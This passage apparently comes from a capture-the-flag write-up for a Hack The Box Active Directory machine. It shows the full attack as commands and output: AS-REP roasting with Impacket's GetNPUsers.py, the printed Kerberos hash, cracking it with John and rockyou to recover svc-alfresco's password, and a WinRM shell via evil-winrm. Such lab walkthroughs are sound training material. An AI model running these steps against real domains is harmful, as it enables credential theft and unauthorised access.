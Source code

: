 `GetNPUsers.py` from [**impacket**](https://github.com/SecureAuthCorp/impacket) can be used to request a **TGT** (Ticket Granting Ticket), getting both the vulnerable usernames and their corresponding `krbasrep5` hashes directly:

```bash
$ GetNPUsers.py htb.local/ -dc-ip $TARGET -request # we could add '-format hashcat'
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC      
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2021-08-17 22:07:11.322568  2021-08-17 21:52:25.008334  0x410200 



$krb5asrep$23$svc-alfresco@HTB.LOCAL:1ab93db0067516ce979a1a21bfad456a$89bf43129d73d2b85bb939d9dc5f11533e80b53b6c86f5fe0d86ddf531fc380b77abbdbc4ebc77bc2f1ad94dc49a308c5f8aa74d885386ffbefdb25d4f201798c0acaf383ce79ed4afaf921994f37d06a2be1515cd28d78d13f8bb3219776071f373107c1605646cd11bbe65f87476c41ae90e4fd098188f680382626603c234dfd8f6432b9d5f31f86aba0ac025ca6ec77cf9434cbfb33a92d5e99295e457351e3d0947a7ea59f53f7d31be8957bbb34930aac943c55a09020970677c62f9283c57045e5ca1cc7e5730651cea7e46a257e44771abfde9fc179f635b5d5c65c08612e420c703
```

### Crack the clear text password of the service account with `john`

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL)
1g 0:00:00:01 DONE (2021-08-17 22:29) 0.6622g/s 2705Kp/s 2705Kc/s 2705KC/s s64891817..s3r2s1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

`s3rvice` is `svc-alfresco`'s password.

### Shell over WinRM

Port 5985 is open so maybe we can login remotely over **WinRM** with these credentials.

```bash
$ evil-winrm -i $TARGET -u svc-alfresco -p s3rvice
```
